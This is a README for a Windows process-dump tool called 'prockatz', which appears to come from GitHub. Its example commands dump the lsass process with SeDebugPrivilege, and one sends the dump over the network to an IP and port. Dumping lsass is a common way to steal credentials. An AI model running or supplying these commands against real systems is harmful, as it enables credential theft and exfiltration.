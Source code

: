 
# Process Dump Tool

## Overview
This tool provides the functionality to create memory dumps of processes on Windows systems. It can handle privileged processes by setting `SeDebugPrivilege`, supports snapshot creation for non-invasive dumping, and can send dumps over the network.

## Features
- **Elevate Privileges**: Gain `SeDebugPrivilege` to handle privileged processes.
- **Network Transmission**: Send process dumps to a specified IP and port.
- **Snapshot Creation**: Create a snapshot of the process for a non-intrusive dump.
- **Support for both PID and Process Name**: Specify the target for dumping either by PID or process name.


## Usage
- `-h, --help`: Show help message and exits.
- `-v, --version`: Print version information and exits.
- `--pid`: Specify the Process ID to dump. [nargs=0..1] [default: 0]
- `--procname`: Specify the name of the process. [nargs=0..1] [default: ""]
- `--dmp`: Specify the file name to dump the process. [nargs=0..1] [default: ""]
- `--ip`: Specify the IP address to send the dump. [nargs=0..1] [default: ""]
- `--port`: Specify the port to send the dump. [nargs=0..1] [default: ""]
- `--elevate`: Set SeDebugPrivilege to dump privileged processes. [OPTIONAL]
- `--snapshot`: Creates a snapshot of the process before dumping it. [OPTIONAL]

## Examples

### Dumping a Process by PID
``prockatz.exe --pid 1000 --dmp lsass.dmp``

### Dumping a Process by Name
``program_name --procname "example.exe" --dmp "lsass.dmp"``

### Dumping a Process by PID with Elevated Privileges
``prockatz.exe --pid 1000 --dmp lsass.dmp --elevate``


### Sending a Dump Over the Network
``prockatz.exe --pid 1000 --ip 192.168.0.105 --port 443 --elevate``



### Creating a Snapshot and Dumping
``prockatz.exe --pid 1000 --dmp lsass.dmp --elevate --snapshot``


## Acknowledgments
- **Argparse Library**: This tool uses the `argparse` library by Ranav for parsing command line arguments. More information can be found at [argparse on GitHub](http://github.com/p-ranav/argparse).


